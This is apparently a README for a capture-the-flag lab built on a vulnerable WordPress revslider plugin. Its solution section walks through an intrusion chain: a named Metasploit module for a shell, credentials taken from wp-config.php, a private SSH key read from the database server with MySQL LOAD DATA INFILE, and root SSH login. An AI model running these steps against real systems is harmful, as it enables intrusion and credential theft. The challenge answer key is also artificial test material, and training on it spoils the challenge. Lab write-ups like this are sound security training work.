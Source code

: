 # Wordpress Vuln
Pentesting is challenge with a vulnerable wordpress plugin as the initial vulnerability.


## Setup
1. Setup Naumachia with the `config.yml` provided.
    - The files for common can be found here: https://github.com/nategraf/Naumachia-challenges
2. (optional) Add `apacheword` to `/etc/hosts` with the ip address of the web server

## Solution
1. Run `wpscan` on the wordpress website and find that it is using a vulnerable version of revslider
2. Setup metasploit and use the `exploit/unix/webapp/wp_revslider_upload_execute` exploit
3. Get a shell on the webserver
4. Read `note.txt` and `wp-config.php`
5. Use the creds to connect to the db server with mysql (`mysql -h <ip> -u wordpress -p`)
6. Read `/backup/id_rsa` off the db server by executing the following sql commands:
    - `use wordpress;`
    - `CREATE TABLE files (text VARCHAR(1024));`
    - `LOAD DATA INFILE '/backup/id_rsa' INTO TABLE files;`
    - `SELECT * FROM files;`
7. Copy `id_rsa` to local file
8. Use `id_rsa` to ssh into the webserver as root (`ssh -i id_rsa root@<ip>`)
9. Read `flag.txt`
    
